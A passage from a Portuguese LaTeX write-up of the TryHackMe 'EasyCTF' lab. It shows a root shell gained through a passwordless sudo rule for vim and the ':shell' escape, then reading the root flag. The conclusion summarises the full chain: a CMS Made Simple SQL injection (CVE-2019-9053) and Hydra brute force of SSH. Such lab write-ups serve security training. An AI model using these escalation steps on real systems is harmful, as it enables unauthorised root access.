  
\includegraphics[width=0.95\linewidth]{user_flag.png}
  \caption{\emph{Flag} de usuário lida no \emph{home} de \texttt{mitch}.}
  \label{fig:user_flag}
\end{figure}

%======================== 2.6 ESCALADA DE PRIVILEGIOS ==========================
\section{Escalada de Privilégios}

\subsection{Enumeração local}
A listagem de \texttt{/home} mostra um segundo usuário, \texttt{sunbath}, ao qual
não é necessário pivotar: a escalada vai direto de \texttt{mitch} a \texttt{root}.
O \cmd{sudo -l} revela a permissão perigosa.

\begin{lstlisting}[style=output,caption={Politica de sudo de mitch.}]
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
\end{lstlisting}

\texttt{mitch} pode executar \texttt{/usr/bin/vim} como \texttt{root} sem senha
--- um \emph{shell escape} clássico (GTFOBins).

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Abrir o \texttt{vim} \textbf{sem} \texttt{sudo} e rodar \texttt{:shell}
        devolve um \emph{shell} ainda como \texttt{mitch}. É o \cmd{sudo vim} que
        herda o contexto de \texttt{root}.
\end{itemize}
\end{becosemsaida}

\subsection{Shell escape via vim e flag de root}
\begin{lstlisting}[language=bash,caption={Escalada a root pelo vim.}]
sudo vim
# dentro do vim: tecla ESC, depois digitar  :shell  e Enter
# -> shell como root
whoami            # -> root
cat /root/root.txt   # -> <FLAG>
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{escalation_root_flag.png}
  \caption{\cmd{sudo -l} com \texttt{(root) NOPASSWD: /usr/bin/vim}; o
  \emph{shell escape} via \texttt{sudo vim} eleva a \texttt{root} e lê a
  \emph{flag} final em \texttt{/root/root.txt}.}
  \label{fig:escalation_root_flag}
\end{figure}

%============================= 2.7 CONCLUSAO ====================================
\section{Conclusão}
O comprometimento partiu da \textbf{enumeração web}: o CMS Made Simple em
\texttt{/simple} era vulnerável à \textbf{CVE-2019-9053}, uma injeção de SQL cega
baseada em tempo que permitiu reconstruir o usuário \texttt{mitch}. A senha do SSH
foi obtida por \textbf{força bruta} com Hydra na porta 2222, dando acesso
interativo e a \emph{flag} de usuário. A escalada a \texttt{root} foi imediata por
uma \textbf{política de \texttt{sudo}} que autorizava \texttt{/usr/bin/vim} sem
senha, explorada com o \emph{shell escape} \texttt{:shell}. As falhas centrais
foram o \textbf{software desatualizado} (CMS vulnerável), a \textbf{senha fraca}
de SSH e uma \textbf{configuração de \texttt{sudo} permissiva}.

%============================= 2.8 REFERENCIAS ==================================
\section{Referências}
\begin{itemize}[leftmargin=1.5em]
  \item TryHackMe --- Sala \emph{EasyCTF} ---
        \url{https://tryhackme.com/room/easyctf}
  \item CVE-2019-9053 --- \emph{CMS Made Simple $<$ 2.2.10 SQL Injection} ---
        \url{https://nvd.nist.gov/vuln/detail/CVE-2019-9053}
  \item Exploit-DB 46635 --- \emph{CMS Made Simple 2.2.10 - SQL Injection} ---
        \url{https://www.exploit-db.com/exploits/46635}
  \item GTFOBins --- \texttt{vim} ---
        \url{https://gtfobins.github.io/gtfobins/vim/}
\end{itemize}

\end{document}
